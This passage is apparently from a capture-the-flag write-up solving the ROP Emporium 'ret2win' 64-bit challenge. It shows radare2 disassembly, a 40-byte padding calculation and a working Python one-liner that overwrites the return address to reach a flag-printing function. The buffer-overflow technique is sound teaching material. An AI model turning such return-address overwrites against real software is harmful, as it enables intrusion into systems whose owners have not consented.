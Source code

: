 Let's come back to `radare2` and find if there's anywhere we want to jump. And of course, in `ret2win` function we have `/bin/cat flag.txt` command. 

```text
[0x00400650]> pdf @sym.ret2win
/ (fcn) sym.ret2win 32
|   sym.ret2win ();
|           0x00400811      55             push rbp
|           0x00400812      4889e5         mov rbp, rsp
|           0x00400815      bfe0094000     mov edi, str.Thank_you__Here_s_your_flag: ; 0x4009e0 ; "Thank you! Here's your flag:"
|           0x0040081a      b800000000     mov eax, 0
|           0x0040081f      e8ccfdffff     call sym.imp.printf         ; int printf(const char *format)
|           0x00400824      bffd094000     mov edi, str.bin_cat_flag.txt ; 0x4009fd ; "/bin/cat flag.txt"
|           0x00400829      e8b2fdffff     call sym.imp.system         ; int system(const char *string)
|           0x0040082e      90             nop
|           0x0040082f      5d             pop rbp
\           0x00400830      c3             ret
```

Address of this function is `0x00400811`, so we have to have **40** bytes of garbage and then our 64-bit address. Remember that address should be in little endian!

Our final exploit will look like this. 

```text
[w3ndige@main ret2win]$ python -c 'print("A" * 40  + "\x11\x08\x40\x00\x00\x00\x00\x00")' | ./ret2win
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}
Segmentation fault (core dumped)
```

And here we have the flag!

